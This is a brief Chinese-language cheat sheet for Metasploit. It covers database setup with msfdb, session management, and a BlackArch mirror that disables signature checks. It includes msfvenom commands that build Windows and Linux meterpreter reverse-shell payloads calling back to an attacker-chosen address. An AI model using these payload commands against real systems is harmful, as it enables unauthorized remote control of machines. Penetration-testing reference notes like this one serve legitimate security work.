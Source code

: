 # Metasploit

## 数据库

初次使用 MSF 时可以利用 [msfdb](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html) 对数据库进行自动初始化, 若自动初始化失败则进行[手动初始化](https://docs.rapid7.com/metasploit/managing-the-database/). 仅支持 [PostgreSQL](https://www.postgresql.org/) 数据库.  

```sh
sudo pacman -S postgresql                      # 安装数据库
sudo systemctl enable --now postgresql.service # 启用数据库服务
sudo systemctl status postgresql.service       # 检查数据库服务状态

msfdb status # 检查数据库服务状态, 包括监听端口
msfdb init   # 初始化数据库
```

其中启动数据库服务和初始化数据库的步骤容易出现错误, 根据提示信息进行故障排除即可.  
启动 msfconsole 后可以通过 `db_status` 检查数据库连接状态.  

之后便可以使用数据库相关指令, 关键信息会被记录到数据库中以便后续查询.  

## Msfvenom

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[ip] -f exe -o ~/payload.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[ip] -f elf -o ~/payload
```

## 后渗透测试

```sh
sessions         # 列出会话, -l
sessions [id]    # 打开会话, -i
sessions -u [id] # 将 shell 升级到 meterpreter
```

## 故障排除

msfdb 初始化数据库失败. 可以使用下面的源安装 `msfdb-blackarch`:  

```
[blackarch]
SigLevel = Optional TrustAll
Server = https://mirrors.ustc.edu.cn/blackarch/$repo/os/$arch
```

## 拓展

- <https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/>
